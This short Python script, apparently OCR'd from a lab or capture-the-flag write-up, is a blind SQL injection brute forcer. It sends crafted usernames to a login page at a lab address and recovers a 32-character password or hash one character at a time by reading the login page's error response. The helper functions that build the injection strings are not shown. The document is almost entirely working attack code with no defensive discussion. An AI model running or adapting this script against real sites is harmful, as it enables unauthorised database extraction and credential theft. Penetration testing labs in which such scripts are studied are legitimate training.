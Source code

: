 ``` python
alpha1 = 'abcdef'
alpha2 = 'ghijklmnopqrstuvwxyz'
num1 = '01234'
num2 = '56789'

# Password variable
passwd = ''

for i in range(1,33):
    if SQLsplit(i) == "alpha1":
        for a in alpha1:
            payload = {'username':SQLstring(i,a), 'password':'abcd'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += a
                print(a,end='',flush=True)
                break

    elif SQLsplit(i) == "alpha2":
        for a in alpha2:
            payload = {'username':SQLstring(i,a), 'password':'abcd'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += a
                print(a,end='',flush=True)
                break
            
    elif SQLsplit(i) == "num1":
        for n in num1:
            payload = {'username':SQLstring(i,n), 'password':'abcd'}
            r = requests.post('http://10.10.10.73/login.php', data=payload)
            if "Wrong identification" in r.text:
                passwd += n
                print(n,end='',flush=True)
                break

    
    else:
        for n in num2:
            payload = {'username':SQLstring(i,n), 'password':'abcd'}
            r = requests.post('http://10.10.10.73/login.php',data=payload)
            if "Wrong identification" in r.text:
                passwd += n
                print(n,end='',flush=True)
                break


# print('\n')
print('\nPass or Hash is:\t'+passwd+'\n')
```
